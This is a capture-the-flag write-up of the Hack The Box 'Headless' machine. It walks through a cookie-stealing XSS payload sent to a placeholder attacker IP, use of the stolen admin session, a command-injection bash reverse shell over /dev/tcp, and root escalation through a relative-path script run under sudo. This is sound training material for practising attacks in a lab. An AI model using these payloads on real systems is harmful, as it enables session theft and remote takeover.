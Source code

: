 # Headless

Headless is a easy machine on HTB.

## Enumeration

First we check the open port via **nmap**.

![nmap](./assets/images/nmap.png)


The ports 22 and 5000 are open.
Let's check the port 5000 first because it's seem to be a http service. So we browse to `10.10.11.8:5000`.

![website](./assets/images/website.png)


This is what you should see after browsing to the domain. The only thing we can do it's to click on the "For questions" button.

We are redirected to the `/support` page where there is only a form. And if we fill it with valid input nothing happen. So let's open **Burpsuite** and intercept the request.

![burpsuite](./assets/images/burpsuite.png)

We can try if the form is vulnerable to **XSS**. First we try with a basic payload like `<script>alert('XSS')</script>` in the message variable.

![hacking_detected](./assets/images/hacking_detected.png)

The server detected our XSS and blocked. And it say administrator will review this incident. And it display the content of our request without the form information. So we can try a data grabber XSS in the header of the request! The payload used is this one : `<script>new Image().src='http://YOUR_IP:YOUR_PORT/cookie.php?c='+document.cookie;</script>`. Don't forget to setup a python server to receive the request.

```bash
python3 -m http.server 8000
```

![data_grabber_request](./assets/images/data_grabber_request.png)

And if you wait a little you should receive some request on your python server.

![cookie](./assets/images/cookie.png)

## Foothold

We have admin cookie! Now we must search how to use them. So we will do some **directory research**

![gobuster](./assets/images/gobuster.png)

There is a `/dashboard` page.

![unauthorized](./assets/images/unauthorized.png)

But we are not permitted to view the page. But let's try again with the admin cookie ! For that inspect the page and go to the storage tab. And copy paste the cookie we have receive. Finally refresh the page.

![dashboard](./assets/images/dashboard.png)

It worked ! Let's click on the button "Generate Report".

![dashboard_click_button](./assets/images/dashboard_click_button.png)

It told us that the systzm are running. Let's intercept the request.

![command_injection](./assets/images/command_injection.png)

We can try a command injetion like `;ls`

![command_injection_result](./assets/images/command_injection_result.png)

## User flag

And yes, there is a command injection vulnerability. With this we can obtain a reverse shell so setup a netcat listener and send this payload in the request (don't forget to URL encode it), `bash -c 'exec bash -i &>/dev/tcp/YOUR_IP/YOUR_PORT <&1'`


And you should have a connection on your netcat listener.

![revshell](./assets/images/revshell.png)

Stabilize the shell first.

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
# CTRL + Z
stty raw -echo; fg
```

We are logged as the user `dvir` and we can find the user flag in it's home directory

## Root flag

If we execute the command `sudo -l` we can see thats we can execute the script `/usr/bin/syscheck` with root right. And if we `cat` the script we obtain this:

```bash
!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0
```

It does some system check but what is really intersting is this part:

```bash
if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
```

So if the `initdb.sh` is not running it execute the command `./initdb.sh 2>/dev/null`. But it don't execute it with a absolute path. So we can exploit this. Go to a directory where you have write right. Per exemple `/tmp` after create a `initdb.sh` file,  give it execution rightfile with and put `#!/bin/bash\n/bin/bash` inside. And execute `syscheck` with sudo.

![root_flag](./assets/images/root_flag.png)